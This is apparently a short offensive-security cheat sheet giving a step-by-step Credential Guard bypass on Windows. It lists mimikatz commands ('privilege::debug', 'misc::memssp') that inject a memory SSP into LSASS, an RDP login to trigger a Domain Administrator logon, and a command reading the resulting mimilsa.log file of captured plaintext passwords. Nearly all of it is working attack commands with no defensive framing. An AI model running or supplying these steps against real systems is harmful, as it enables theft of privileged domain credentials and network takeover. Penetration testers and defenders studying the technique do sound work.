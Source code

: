 Verifying that Credential Guard is enabled
```
Get-ComputerInfo
```

## Credential Guard Bypass
### mimikatz
elevated system
```
privilege::debug
```

memssp injection
```
misc:memssp
```

logging in to the machine as a Domain Administrator
```
xfreerdp3 /u:"" /p:"" /v:192.168.x.x /dynamic-resolution
```

check mimilsa.log
```
type C:\Windows\System32\mimilsa.log
```
